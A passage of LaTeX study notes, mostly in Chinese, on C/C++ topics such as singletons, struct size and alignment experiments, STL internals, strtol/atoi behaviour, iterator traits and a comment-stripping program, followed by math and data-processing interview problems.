26     Singleton(const Singleton&); // Prevent clients from copying a Singleton
27     Singleton& operator=(const Singleton&);
28 private:
29     static Mutex _mutex;
30     static Singleton *_instance; // The one and only instance
31 };
32 
33 #endif/*SINGLETON_H*/
\end{lstlisting}



\subsection{Monoid模式}
Monoid模式是Flyweight模式的退化,也可看做是在单例模式上应用代理模式。
思想是所有实例共享相同的状态。
\begin{lstlisting}[language=C++] 
class Monoid
{
public:
  void foo() { if (State* i = Instance()) i->foo(); }
  void bar() { if (State* i = Instance()) i->bar(); }
private:
  struct State {};
  static State* Instance();
  static void CleanUp();
  static bool MDestroyed;
  static State* MInstance;
};

// .cpp
bool Monoid::MDestroyed = false;
State* Monoid::MInstance = 0;

State* Monoid::Instance()
{
  if (!MDestroyed && !MInstance)
  {
    MInstance = new State();
    atexit(&CleanUp);
  }
  return MInstance;
}

void Monoid::CleanUp()
{
  delete MInstance;
  MInstance = 0;
  MDestroyed = true;
}
\end{lstlisting}



%!Mode:: "TeX:UTF-8"
\section{对象大小与对齐}

\subsection{C++常见类型的大小}
\begin{itemize}
    \item string:4 (注:类的大小依具体实现而异)
    \item istream:144
    \item vector:13
    \item 空类:1 (注:空类作为派生类的基类部分时可以大小为零)
    \item 多重继承空类:1
    \item 虚继承空类:4. 因为涉及虚表(\cite{pibible}P59)
\end{itemize}

\subsection{sizeof(字符串)}
字符数组长度(使用sizeof()求取)等于字符串长度加1, 因为末尾的零也占一位。
而指向字符串的char*变量的长度则为指针长度(比如4)。
这是字符串与字符数组的区别之一。二者都可以用静态字符串变量初始化。
静态字符串也可用sizeof()求取长度。


\begin{lstlisting}[language=C++]

#include <iostream>
using namespace std;

size_t string_len(const char str[])
{
    return sizeof(str);
}

size_t string8_len(const char str[8])
{
    return sizeof(str);
}

int main(int argc, char* argv[])
{
#define STATIC_STRING "123456789"
    const char sc[] = STATIC_STRING;
    const char *dc = STATIC_STRING;

    cout << sizeof(STATIC_STRING) << endl; //10
    cout << sizeof(sc) << endl; //10
    cout << sizeof(dc) << endl; //4
    cout << string_len(sc) << endl; //4
    cout << string8_len(sc) << endl; //4

    return 0;
}                                           

\end{lstlisting}


\subsection{sizeof(C二维数组)}
\begin{lstlisting}[language=C++]
#include <stdlib.h>
#include <stdint.h>
#include <stdio.h>

int a[3][5] = {
    1, 2, 3, 4, 5, 
    6, 7, 8, 9, 10, 
    11, 12, 13, 14, 15
};

int main(int argc, char* argv[])
{
    printf("sizeof(a) = %d\n", sizeof(a));
    printf("sizeof(*a) = %d\n", sizeof(*a));
    printf("sizeof(**a) = %d\n", sizeof(**a));
    printf("**(a+1) = %d\n", **(a+1));
    printf("**(a+2) = %d\n", **(a+2));
    printf("**(a+3) = %d\n", **(a+3));
    printf("**(a+4) = %d\n", **(a+4));
    return 0;
}

/*
输出结果:
sizeof(a) = 60
sizeof(*a) = 20
sizeof(**a) = 4
**(a+1) = 6
**(a+2) = 11
**(a+3) = 0
**(a+4) = 0
*/                        
\end{lstlisting}

a的类型是什么?
如果\verb$int daytab[2][13]$作为函数参数,那么函数声明应形如
\begin{lstlisting}[language=C++]
void f(int daytab[2][13]) { ... }
vod f(int daytab[][13]) { ... }
void f(int (*daytab)[13]) { ... }          
\end{lstlisting}
第三种声明解释了a+1实际的地址偏移并非sizeof(a), 而是20。

\subsection{成员地址偏移}
stddef.h提供以下宏可用于求取类型为t的对象的成员变量m相对于对象起始字节的地址偏移\cite{pibible}:
\begin{lstlisting}[language=C++]
 #define offsetof(t,m) ((size_t)&((t *)0)->m)
\end{lstlisting}
将地址零强制转换为所关心的类型,则各字段的地址等于其相对于0的偏移。只要不引用各字段,就不会发生段错误。


类似地,内核代码linux/kernel.h中提供的container\_of宏定义将type类型的成员变量member的指针ptr转为结构体地址。
\begin{lstlisting}[language=C++]
  #define container_of(ptr, type, member) ({                      \
        const typeof( ((type *)0)->member ) *__mptr = (ptr);    \
        (type *)( (char *)__mptr - offsetof(type,member) );})
\end{lstlisting}
其中,typeof是gcc的C语言扩展保留字,用于声明变量类型。





\subsection{C变量对齐规则}
内存中的数据对齐准则,指数据所在内存地址必须是数据长度的整数倍(\cite{pibible}P50)。当在栈上分配变量空间时,这一点由编译器保证,且不同的编译器会输出不同的结果。当在堆上分配大片空间,由程序员故意在非变量长度整数倍的地址上存放一变量,这一点可能无法保证。

对于成员变量对齐规则,有
参\cite{pibible}P49。
\begin{enumerate}
    \item 如果成员均小于处理器位数,以最长成员为对齐单位
    \item 如果存在成员达到或超过处理器位数,则以处理器位数为对齐单位
    \item 类型相同的连续元素位于连续的空间内,如同数组(只要第一个元素满足内存中的数据对齐规则,其后元素必然满足对齐规则)。
    \item 对象的大小为对齐单位的整数倍
\end{enumerate}

VC++中加上\#pragma pack(n)的设定能改变默认的数据对齐长度,n需为2的幂,如果没有参数n,相当于取消上一次设定。

使用g++测试,总结出如下规律:
    成员变量如果是结构体,则分解开考虑,相当于所有成员的长度只能是1,2,4,8。如果32位机上出现了4字节或8字节的变量,则结构长度为4字节的倍数,而每个成员均须保证自身是对齐的(假设结构体起始于4字节倍数地址)。如果最长的成员长2字节,则结构长度为2字节的倍数。如果是由单字节变量聚合成,则无需考虑对齐。

还有一种总结:
\begin{enumerate}
\item 原则1、普通数据成员对齐规则:第一个数据成员放在offset为0的地方,以后每个数据成员存储的起始位置要从该成员大小的整数倍开始,或对齐单位整数倍,取较小者
\item 原则2、结构体成员对齐规则:如果一个结构里有某些结构体成员,则该结构体成员要从其内部最大元素大小的整数倍地址开始存储。(struct a里存有struct b,b里有char,int,double等元素,那b应该从8的整数倍开始存储。)
\item 原则3、结构体大小对齐规则:结构体大小也就是sizeof的结果,必须是其内部成员中最大的对齐参数的整数倍
\end{enumerate}

另外,在栈上分配结构体空间,是如何确定起始地址的?可以猜想,如果确保结构体起始于4字节倍数的地址,则可以保证每个成员都是对齐的。但实际分配原则应比此宽松。

以下为一些测试例:
\begin{lstlisting}[language=C++]
#include <stdlib.h>
#include <stdint.h>
#include <stdio.h>

/*#pragma pack(2)*/
struct char_only{
    char f1;
};

struct char3{
    char f1:3;
};

struct int3{
    int f1:3;
};


struct int3_int2{
    int f1:3;
    int f2:2;
};

struct int3_int2_char{
    int f1:3;
    int f2:2;
    char f3;
};

struct int3_char {
    int f1:3;
    char f2;
};

struct int24_char {
    int f1:24;
    char f2;
};

struct int25_char {
    int f1:25;
    char f2;
};

struct int_char {
    int f1;
    char f2;
};

struct char_int{
    char f1;
    int f2;
};

struct char_short_int{
    char f1;
    short f2;
    int f3;
};

struct char_int_short{
    char f1;
    int f3;
    short f2;
};

struct int_double_float{
    int f1;
    double f3;
    float f2;
};


struct float_struct_int_double_float{
    float f1;
    struct int_double_float f2;
};

struct int_double_char{
    int f1;
    double f3;
    char f2;
};



struct char_short_int_double{
    char f1;
    short f2;
    int f3;
    double f4;
};

struct char_short_char_double{
    char f1;//2
    short f2;//2
    char f3;//4
    double f4;//8
};

struct char_char_double{
    char f1;//1
    char f3;//3
    double f4;//8
};

#define PRINT(x) printf("%s = %d\n", #x, x)

int main(int argc, char* argv[])
{
    PRINT(sizeof(int));
    PRINT(sizeof(double));
    PRINT(sizeof(struct char_only));
    PRINT(sizeof(struct char3));
    PRINT(sizeof(struct int3));
    PRINT(sizeof(struct int3_int2));
    PRINT(sizeof(struct int3_int2_char));
    PRINT(sizeof(struct int3_char));
    PRINT(sizeof(struct int24_char));
    PRINT(sizeof(struct int25_char));
    PRINT(sizeof(struct int_char));
    PRINT(sizeof(struct int_double_float));
    PRINT(sizeof(struct float_struct_int_double_float));
    PRINT(sizeof(struct int_double_char));
    PRINT(sizeof(struct char_int));
    PRINT(sizeof(struct char_short_int));
    PRINT(sizeof(struct char_int_short));
    PRINT(sizeof(struct char_short_int_double));
    PRINT(sizeof(struct char_short_char_double));
    PRINT(sizeof(struct char_char_double));
    return 0;
}
\end{lstlisting}

输出结果:
\begin{verbatim}
sizeof(int) = 4
sizeof(double) = 8
sizeof(struct char_only) = 1
sizeof(struct char3) = 1
sizeof(struct int3) = 4
sizeof(struct int3_int2) = 4
sizeof(struct int3_int2_char) = 4
sizeof(struct int3_char) = 4
sizeof(struct int24_char) = 4
sizeof(struct int25_char) = 8
sizeof(struct int_char) = 8
sizeof(struct int_double_float) = 16
sizeof(struct float_struct_int_double_float) = 20
sizeof(struct int_double_char) = 16
sizeof(struct char_int) = 8
sizeof(struct char_short_int) = 8
sizeof(struct char_int_short) = 12
sizeof(struct char_short_int_double) = 16
sizeof(struct char_short_char_double) = 16
sizeof(struct char_char_double) = 12
\end{verbatim}
如果使用了\#pragma pack(2), 则输出结果:
\begin{verbatim}
sizeof(int) = 4
sizeof(double) = 8
sizeof(struct char_only) = 1
sizeof(struct char3) = 1
sizeof(struct int3) = 2
sizeof(struct int3_int2) = 2
sizeof(struct int3_int2_char) = 2
sizeof(struct int3_char) = 2
sizeof(struct int24_char) = 4
sizeof(struct int25_char) = 6
sizeof(struct int_char) = 6
sizeof(struct int_double_float) = 16
sizeof(struct float_struct_int_double_float) = 20
sizeof(struct int_double_char) = 14
sizeof(struct char_int) = 6
sizeof(struct char_short_int) = 8
sizeof(struct char_int_short) = 8
sizeof(struct char_short_int_double) = 16
sizeof(struct char_short_char_double) = 14
sizeof(struct char_char_double) = 10

\end{verbatim}


使用位域的主要目的是压缩存储,其大致规则为:  \\
 1) 如果相邻位域字段的类型相同,且其位宽之和小于类型的sizeof大小,则后面的字段将紧邻前一个字段存储,直到不能容纳为止;  \\
 2) 如果相邻位域字段的类型相同,但其位宽之和大于类型的sizeof大小,则后面的字段将从新的存储单元开始,其偏移量为其类型大小的整数倍;  \\
 3) 如果相邻的位域字段的类型不同,则各编译器的具体实现有差异,VC6采取不压缩方式,Dev-C++采取压缩方式;  \\
 4) 如果位域字段之间穿插着非位域字段,则不进行压缩;  \\
 5) 整个结构体的总大小为最宽基本类型成员大小的整数倍。\\

结构,联合,或者类的数据成员,第一个放在偏移为0的地方,以后每个数据成员的对齐,按照\#pragma pack指定的数值和这个数据成员自身长度中,比较小的那个进行。
 也就是说,当\#pragma pack的值等于或超过所有数据成员长度的时候,这个值的大小将不产生任何效果。
 而结构整体的对齐,则按照结构体中最大的数据成员 和 \#pragma pack指定值 之间,较小的那个进行。

\#pragma pack(1)表示完全没有对齐考虑,紧凑布局。

当数据定义中出现\__declspec(align())时,指定类型的对齐长度还要用自身长度和这里指定的数值比较,然后取其中较大的。
最终类/结构的对齐长度也需要和这个数值比较,然后取其中较大的。
可以这样理解,\__declspec(align()) 和 \#pragma pack是一对兄弟,前者规定了对齐的最小值,后者规定了对齐的最大值,两者同时出现时,前者拥有更高的优先级。


\begin{lstlisting}[language=C++]
struct test{
    int f1;
    double f2;
    int f3[0];
};
\end{lstlisting}
上述f3是不占内存的,但可作指针用,只是一个指向结尾的指针。

\begin{lstlisting}[language=C++]
struct char1{
    char f3[1];
};
\end{lstlisting}
该结构体占用的空间为1,即f3占用1字节内存,但可作指针用。


\subsection{C++多继承下的内存布局}

\begin{lstlisting}[language=C++]
#include <cassert>
#include <cstdlib>
#include <climits>
#include <cstring>
#include <stack>
#include <vector>
#include <iostream>
#include <algorithm>
#include <iterator>  
using namespace std;

#define COUT(x) cout << #x << " = " << x << endl

struct Base1{
    int b1; 
    virtual void f() {}
};

struct Base2{
    int b2; 
    virtual void g() {}
};

struct Derived: public Base1, public Base2{
    int d1; 
    int d2; 
    virtual void h() {}
    virtual void f() {}
};


int main(void) {
    Derived d;
    Base1 *bp1 = &d; 
    Base2 *bp2 = &d; 
    COUT(bp1);
    COUT(bp2);
    COUT(&d);
    COUT(&d.d2);
    return 0;
}

/*
输出结果:
bp1 = 0xbfc4b038
bp2 = 0xbfc4b040
&d = 0xbfc4b038
&d.d2 = 0xbfc4b04c
*/      
\end{lstlisting}


\subsection{Structure Packing}

\href{http://www.catb.org/esr/structure-packing/}{The Lost Art of C Structure Packing}

\href{https://github.com/ludx/The-Lost-Art-of-C-Structure-Packing/blob/master/README.md}{The Lost Art of C Structure Packing(Chinese Version)}



\begin{lstlisting}[language=C++]
#pragma pack(push) //save state
#pragma pack(4)//4-byte alignment
struct test
{
char m1;
double m4;
int m3;
};
#pragma pack(pop)//restore state

\end{lstlisting}

Another example:
\begin{lstlisting}[language=C++]
#pragma pack(push, 1) // exact fit - no padding
struct MyStruct
{
  char b; 
  int a; 
  int array[2];
};
#pragma pack(pop) //back to whatever the previous packing mode was

\end{lstlisting}
Without the pragma directive, the size of the structure is 16 bytes - with the packing of 1 - the size is 13 bytes

Gcc's attribute \textbf{aligned} specifies a minimum alignment for the variable
or structure field, measured in bytes. For example, the declaration: 
\begin{lstlisting}[language=C++]
int x __attribute__ ((aligned (16))) = 0;
\end{lstlisting}
causes the compiler to allocate the global variable x on a 16-byte boundary.

This attribute also specifies a minimum alignment (in bytes) for variables of
the specified type(structure or union type). For example, the declarations:
\begin{lstlisting}[language=C++]
struct S { short f[3]; } __attribute__ ((aligned (8)));
typedef int more_aligned_int __attribute__ ((aligned (8)));
\end{lstlisting}
force the compiler to insure (as far as it can) that each variable whose type is struct S or \verb|more_aligned_int| will be allocated and aligned at least on a 8-byte boundary.

The \textbf{packed} attribute specifies that a variable or structure field
should have the smallest possible alignment—one byte for a variable, and one bit for a field, unless you specify a larger value with the aligned attribute.
Here is a structure in which the field x is packed, so that it immediately follows a:

\begin{lstlisting}[language=C++]
struct foo {
    char a;
    int x[2] __attribute__ ((packed));
};
\end{lstlisting}





%!Mode:: "TeX:UTF-8"
\section{SGI STL源码学习笔记}

vector动态增长是乘以2的关系,未必是2的幂。
c[idx]没有边界检查,而c.at(idx)方式访问元素会抛出range\_error。

STL三大组件:容器,算法,迭代器。SGI STL又加上仿函数,适配器,配置器。

STL序列式容器:vector,deque,list, forward\_list,priority\_queue,stack适配器,queue适配器(SGI定义了非标准的slist,以算法形式存在的heap)。

STL关联式容器:set,map,multiset,multimap(SGI定义了非标准的hashtable,hashset,hashmap等,以算法形式存在的RBTree)。

有了hashmap(unordered\_map),为什么还要保留基于红黑树的map?
第一,平衡二叉树的查找时间未必比常数查找时间慢多少(100W记录只需20次比较),而哈希表未必有多快(设计不当,以及哈希函数耗时);
第二,哈希表占用大量的内存空间,是以空间换时间的方法。

insert操作执行前插并范围刚插入的值,erase则返回被删除的下一个值。以下代码删除偶数,复制奇数:
\begin{lstlisting}[language=C++] 
vector<int> vi = {0,1,2,3,4,5,6,7,8,9};
auto iter = vi.begin(); // call begin , not cbegin because we’re changing vi
while (iter != vi.end()) {
	if (*iter % 2) {
		iter = vi.insert(iter, *iter); // duplicate the current element
		iter += 2; // advance past this element and the one inserted before it
	} else
		iter = vi.erase(iter);// remove even elements	
	// don’t advance the iterator; iter denotes the element after the one we erased
}
\end{lstlisting}





%!Mode:: "TeX:UTF-8"
\section{strtol和atoi}
\begin{lstlisting}[language=C++]
/*stdlib.h*/
int atoi(const char *nptr);
long int strtol(const char *nptr, char **endptr, int base);
\end{lstlisting}

出错测试结论(32位机,gcc4.6.3):
atoi在转换失败时返回0,不设置errno,无从判断转换是否失败。
strtol在转换失败时也返回0,不设置errno,但endptr会指向nptr。
strtol在溢出时errno设置为ERANGE,返回LONG\_MAX或LONG\_MIN,atoi也有类似行为,返回INT\_MAX或INT\_MIN。

int和long的上下限在limits.h中定义:
\begin{lstlisting}[language=C++]
#  define INT_MIN	(-INT_MAX - 1)
#  define INT_MAX	2147483647

#  if __WORDSIZE == 64
#   define LONG_MAX	9223372036854775807L
#  else
#   define LONG_MAX	2147483647L
#  endif

#  define LONG_MIN	(-LONG_MAX - 1L)
\end{lstlisting}

以下为测试程序:
\begin{lstlisting}[language=C++]
#include <iostream>
#include <cstdlib>

using namespace std;

void test_strtol(const char *str)
{
    char *endptr = nullptr;
    long result;
    int errsave;
    errno = 0;
    result = strtol(str, &endptr, 10);
    errsave = errno;

    cout << 
	__FUNCTION__ << 
	"(\"" << str << 
	"\"), endptr shift: " << (long)(endptr - str) << 
	", result: " << result << 
	", errno: " << errsave << endl;
}

void test_atoi(const char *str)
{
    long result;
    int errsave;
    errno = 0;
    result = atoi(str);
    errsave = errno;

    cout << 
	__FUNCTION__ << 
	"(\"" << str << 
	"\"), result: " << result << 
	", errno: " << errsave << endl;
}

int main()
{
    void (*f)(const char *) = test_strtol;
    f("-485stop");
    f("--485stop");
    f("-0-485stop");
    f("+2147483647stop");
    f("+2147483648stop");
    f("+21474836488stop");
    f("-2147483648stop");
    f("-2147483649stop");

    f = test_atoi;
    f("-485stop");
    f("--485stop");
    f("-0-485stop");
    f("+2147483647stop");
    f("+2147483648stop");
    f("+21474836488stop");
    f("-2147483648stop");
    f("-2147483649stop");

    return 0;
}
\end{lstlisting}

以下为测试程序输出:
\begin{verbatim}
test_strtol("-485stop"), endptr shift: 4, result: -485, errno: 0
test_strtol("--485stop"), endptr shift: 0, result: 0, errno: 0
test_strtol("-0-485stop"), endptr shift: 2, result: 0, errno: 0
test_strtol("+2147483647stop"), endptr shift: 11, result: 2147483647, errno: 0
test_strtol("+2147483648stop"), endptr shift: 11, result: 2147483647, errno: 34
test_strtol("+21474836488stop"), endptr shift: 12, result: 2147483647, errno: 34
test_strtol("-2147483648stop"), endptr shift: 11, result: -2147483648, errno: 0
test_strtol("-2147483649stop"), endptr shift: 11, result: -2147483648, errno: 34
test_atoi("-485stop"), result: -485, errno: 0
test_atoi("--485stop"), result: 0, errno: 0
test_atoi("-0-485stop"), result: 0, errno: 0
test_atoi("+2147483647stop"), result: 2147483647, errno: 0
test_atoi("+2147483648stop"), result: 2147483647, errno: 34
test_atoi("+21474836488stop"), result: 2147483647, errno: 34
test_atoi("-2147483648stop"), result: -2147483648, errno: 0
test_atoi("-2147483649stop"), result: -2147483648, errno: 34
\end{verbatim}

                   






















%!Mode:: "TeX:UTF-8"

\section{trait技法}

特性萃取技术依赖于trait模板、category类体系和重载函数体系。

标准STL定义了\verb$struct iterator_traits$,其中的\verb$iterator_category$字段可取五种类型,对应五类迭代器。
\begin{lstlisting}[language=C++]

struct input_iterator_tag {};
struct output_iterator_tag {};
struct forward_iterator_tag : public input_iterator_tag {};
struct bidirectional_iterator_tag : public forward_iterator_tag {};
struct random_access_iterator_tag : public bidirectional_iterator_tag {};

template <class Iterator>
struct iterator_traits {
  typedef typename Iterator::iterator_category iterator_category;
  typedef typename Iterator::value_type        value_type;
  typedef typename Iterator::difference_type   difference_type;
  typedef typename Iterator::pointer           pointer;
  typedef typename Iterator::reference         reference;
};

\end{lstlisting}

迭代器类和迭代器tag类是两个相关联的类体系结构。
以下是两个迭代器类:
\begin{lstlisting}[language=C++]

template <class T, class Distance> struct input_iterator {
  typedef input_iterator_tag iterator_category;
  typedef T                  value_type;
  typedef Distance           difference_type;
  typedef T*                 pointer;
  typedef T&                 reference;
};

template <class T, class Distance> struct random_access_iterator {
  typedef random_access_iterator_tag iterator_category;
  typedef T                          value_type;
  typedef Distance                   difference_type;
  typedef T*                         pointer;
  typedef T&                         reference;
};

\end{lstlisting}
还有一个通用的迭代器类:
\begin{lstlisting}[language=C++]


struct iterator {
  typedef Category  iterator_category;
  typedef T         value_type;
  typedef Distance  difference_type;
  typedef Pointer   pointer;
  typedef Reference reference;
};

\end{lstlisting}

内置指针也是一种迭代器:
\begin{lstlisting}[language=C++]

template <class T>
struct iterator_traits<T*> {
  typedef random_access_iterator_tag iterator_category;
  typedef T                          value_type;
  typedef ptrdiff_t                  difference_type;
  typedef T*                         pointer;
  typedef T&                         reference;
};

\end{lstlisting}

这是一个便利函数,返回一个迭代器类对应的\verb$iterator_category$类实例,实现了两个类体系结构的对应:
\begin{lstlisting}[language=C++]

template <class Iterator>
inline typename iterator_traits<Iterator>::iterator_category
iterator_category(const Iterator&) {
  typedef typename iterator_traits<Iterator>::iterator_category category;
  return category();
}

\end{lstlisting}

于是可根据不同的\verb$iterator_category$类实例实现不同的操作:
\begin{lstlisting}[language=C++]

template <class InputIterator, class Distance>
inline void advance(InputIterator& i, Distance n) {
  __advance(i, n, iterator_category(i));
}

template <class InputIterator, class Distance>
inline void __advance(InputIterator& i, Distance n, input_iterator_tag) {
  while (n--) ++i;
}

template <class RandomAccessIterator, class Distance>
inline void __advance(RandomAccessIterator& i, Distance n, 
                      random_access_iterator_tag) {
  i += n;
}


\end{lstlisting}

SGI STL定义了非标准的$type_traits$把这种技法扩大到了迭代器以外的世界。

\begin{lstlisting}[language=C++]
template <class ForwardIterator>
inline void
__destroy_aux(ForwardIterator first, ForwardIterator last, __false_type) {
  for ( ; first < last; ++first)
    destroy(&*first);
}

template <class ForwardIterator> 
inline void __destroy_aux(ForwardIterator, ForwardIterator, __true_type) {}

template <class ForwardIterator, class T>
inline void __destroy(ForwardIterator first, ForwardIterator last, T*) {
  typedef typename __type_traits<T>::has_trivial_destructor trivial_destructor;
  __destroy_aux(first, last, trivial_destructor());
}

\end{lstlisting}









%!Mode:: "TeX:UTF-8"
%!Mode:: "TeX:UTF-8"

\section{针对C语言的轮子}
Glib库为Gnome项目的基础,可独立用于其他项目做轮子。
Glib项目的test目录可作为demo以供学习。

\subsection{boost}

在Linux下编译:
\begin{verbatim}
./bootstrap.sh
./b2
\end{verbatim}

在mingw环境下编译:
\begin{verbatim}
./bootstrap.bat mingw
./b2.exe --toolset=gcc --build-type=complete
\end{verbatim}


\subsection{日志调试}

Glib的功能中包含了日志调试,但是不甚便利。
默认情况下,debug和info级别的日志默认是不打开的,其他级别的日志都是打开的。
可以通过设置环境变量\verb$G_MESSAGES\_DEBUG=all$打开所有日志。
如果需要对级别进行精细调控,需要自定义日志处理handler,自己的handler可以调用默认的\verb$g_log_default_handler()$。
glib并未提供定义好的给定阈值控制法。

GitHub项目\href{https://github.com/HardySimpson/zlog}{zlog}提供了较好的日志功能。
快速配置时,将配置文件myzlog.conf,zlog.h头文件和静态库文件置入当前项目路径。编译时要同时链接pthread库。
参考该项目的README.md文件。
\begin{verbatim}
#include <stdio.h>
    #include "zlog.h"

    int main()
    {

       if (dzlog_init("myzlog.conf", "my_cat")) {
          printf("init failed\n");
          return -1;
      }

      dzlog_info("%d: %d, %d", high_freq_bcounts, ok, bad);
      zlog_fini();
      return 0;
  }

\end{verbatim}

%!Mode:: "TeX:UTF-8"
\chapter{编程题目}

%!Mode:: "TeX:UTF-8"
\section{代码:去除C++代码中的注释}

条件是该源程序语法正确。源代码分为行注释部分、块注释部分和无注释部分。
注释的起始位置只会出现在无注释部分,且不会出现在字符串中。

如何判断字符串?
双引号作为字符串起点的条件:在字符串之外,未被转义,未被单引号括起(\verb$'"'$)。

如何判断字符是否被转义?
在反斜线后,且反斜线本身未被转义。转义反斜线只会出现在字符串或单字符常量结构(\verb$'a'$)中。作行连接时也会用反斜线。

如何判断字符是否出现在单引号字符结构中?
单引号作为字符常量起点的条件是,该单引号未必转义,且未出现在字符串中。

另外,不必担心出现\verb$ int *p; a = b/*p $ 这种代码,它不能通过编译,必须在除号后面加空格。

\begin{lstlisting}[language=C++]

#include <iostream>
#include <fstream>
#include <sys/stat.h>

using namespace std;

class CommentEraser {
    public:
        static void erase(const char *in, char *out, size_t len);
};

void CommentEraser::erase(const char *in, char *out, size_t len)
{
    if (!in || !out || !len) return;

    const char *p = in, *pend = in + len;
    char *q = out, oldc = 0;
    bool in_dq = false, in_sq = false, in_esc = false;
    bool in_lc = false, in_bc = false;
    
    //escape sign must be in either dq or sq
    //' can be in dq without escaping, be in sq with escaping
    //" can be in dq with escaping, be in sq with or without escaping
    // which means, " is no quotation sigh when in sq or when escaped
    
    while (p != pend) {
       char c = *p; 
       if (in_lc) {
           if ('\n' == c) {
               in_lc = false;
               *q++ = '\n';
           }
       } else if (in_bc) {
           if ('/' == c && '*' == oldc) {
               in_bc = false;
           }
       } else { //not in comment
           if ('\\' == c) {//backslash
                   in_esc = !in_esc;
           } else { // not backslash 
               if ('\'' == c) { //'
                   if (!in_esc && !in_dq) {
                       in_sq = !in_sq;//true single quotation
                   }
               } else if ('"' == c) {
                   if (!in_esc && !in_sq)
                       in_dq = !in_dq;//true double quotation
               } else if ('/' == c) {
                   if (!in_dq && '/' == oldc)
                       in_lc = true;
               } else if ('*' == c) {
                   if (!in_dq && '/' == oldc)
                       in_bc = true;
               }
               in_esc = false;
           }
           if (in_lc || in_bc)//new comment 
               q--;//unwrite '/'
           else
               *q++ = c;
       }//not in comment
       oldc = c;
       p++;
    }
}

int main(int argc, char *argv[])
{
    if (argc < 2) {
        cout << "Usage: " << argv[0] << " filename " << endl;
    }

    ifstream is(argv[1], ios::binary);
    if (!is) {
        cout << "Cannot open file " << argv[1] << "!" << endl;
    }
    
    struct stat astat;
    if (stat(argv[1], &astat) < 0) {
        cout << "Cannot get length of file " << argv[1] << "!" << endl;
    }
    
    size_t insize = astat.st_size;//file size
    char *inbuf = new char[insize]; 

    is.read(inbuf, insize);
    is.close();

    char *outbuf = new char[insize + 1];//last byte for \0
    CommentEraser::erase(inbuf, outbuf, insize); 
    outbuf[insize]  = 0;
    cout << outbuf << endl;
    return 0;
}


\end{lstlisting}

以下源程序可用作测试输入。
\begin{lstlisting}[language=C++]

#include <iostream>
#include <fstream>
#include <sys/stat.h>

using namespace std;

/*ss*/
/*s * ' '' "" 
 *
 * s*/

int main(int argc, char *argv[])
{
    char *str = "ss ' \"  //  /*ss*/ //// /**/ ";
    char c = '"';
    char d = '\"';//sss
    cout << str << endl;
    //ss
    cout << c << endl;
    cout <<d << endl;
    return 0;
}
\end{lstlisting}

%!Mode:: "TeX:UTF-8"
\section{数学题举例}
\subsection{卡特兰数(Catalan Number)}

Catalan数:$h(n)=C_{2n}^{n} - C_{2n}^{n+1} = \frac{1}{n+1}C_{2n}^{n}$.

$h(n)=\sum^k{h(k)h(n-1-k)}, (n>=1,k=0,...,n-1)$, $h(0)=1, h(1)=1, h(2)=2$

这个问题还需深究。Catalan数的相关文章和例题:

\url{http://www.cnblogs.com/wuyuegb2312/p/3016878.html#common}

\begin{enumerate}
  \item 有足够量的2分、5分、1分硬币,如果想凑齐一元钱,可以有(A)种方法
A、541    B、270   C、1024    D、128
  \item n对小括号,能构成的合法匹配的序列有多少种?h(n)
  \item 在图书馆一共6个人在排队,3个还《面试宝典》一书,3个在借《面试宝典》一书,图书馆此时没有了面试宝典了,求他们排队的总数?
h(3)=5;所以总数为5*3!*3!=180.
	\item 线段三分,构成三角形的概率是四分之一。
	\item n个矩阵相乘式的加括号方案,相当于n-1对括号的合法顺序,有h(n-1)种
	\item 某个城市的某个居民,每天他须要走过2n个街区去上班(他在其住所以北n个街区和以东n个街区处工作)。如果他不跨越(但可以碰到)从家到办公室的对角线,那么有多少条可能的道路?2h(n)。他可以限定在对角线以北或以南走。
	\item 在圆上选择2n个点,将这些点成对连接起来,且所得n条线段不相交,求可行的方法数。h(n)
	\item n个(完全相同的)结点可构造多少个不同形状的二叉树?h(n)
\end{enumerate}

\subsection{阿克曼函数(Ackermann Function)}

 \begin{equation}
   A(m,n) = 
\left\{ \begin{array}{ll}
n+1, & \mathrm{if} \quad m=0\\
A(m-1,1), & \mathrm{if} \quad m>0 \quad \mathrm{and} \quad n=0\\
A(m-1,A(m,n-1)), & \mathrm{if} \quad m>0 \quad \mathrm{and} \quad n>0
\end{array} \right. 
 \label{FormulaAckermann}
 \end{equation}
可推出有:
\begin{itemize}
\item $A(0,n)=n+1$
\item $A(1,n)=n+2$
\item $A(1,n)=2 n+3$
\item $A(3,n)=2^{n+3}-3$
\end{itemize}



%!Mode:: "TeX:UTF-8"

\section{大量数据分析问题举例}


\subsection{求众数}
求众数(Mode):
\cite{pp}11.5.1。
方法1:基于选择算法,参考\ref{subsec:orderStatistics},取轴值x, 根据快排的过程,小于x的放在左边,大于x的放在右边。同时统计x的出现次数T。 如果x左边的个数(不算X)多于T,向左递归;同理,如果x右边的个数对于T,向右递归。复杂度为$O(nlogn)$。
方法2:基于分布的统计,利用数组(如果数据取值范围为有限区间内的整数)或散列。时间复杂度为线性,空间复杂度较高。
方法3:先排序。复杂度主要来自排序操作。

求绝对众数:
\cite{bop}2.3,发帖水王问题。
方法:不断去除相异的两个值。
扩展为有三个ID,各自超过ID出现次数的四分之一。



\subsection{丢失的备份}
\cite{bop}1.5。每个结点都冗余备份为2份,因此活跃ID列表中每个ID会出现两次,但一些结点可能会失效,其ID不出现于列表。在已知有1个/2个结点出故障的情况下,找到其ID。如果只有1个ID失效,将所有活跃的ID相异或,将得到失效ID。如果两个ID失效,事先应计算好所有ID总和,减去活跃ID总和,可以得到一个方程。另一个方程可以基于所有ID的乘积、平方和、异或等。

\subsection{缺失的整数}
\cite{pp}2.1A,文件中包含不足40亿个32位整数(32位整数有42.9亿种取值),要求找到一个缺失的整数。如果内存无法容纳位图(32位整数需要512MB的位图空间),可以在值域二分搜索,每次迭代将当前值域的样本复制到另一个文件上,空域空间因小于值域空间,因此空域能保证缩半。根据等比数列求和公式,复杂度为线性。如果题目条件是所有32bit整数中只缺1个,可以异或。因为所有整数异或为0。参\ref{subsec:dupNumberInFile}。

\subsection{至少出现两次的整数}
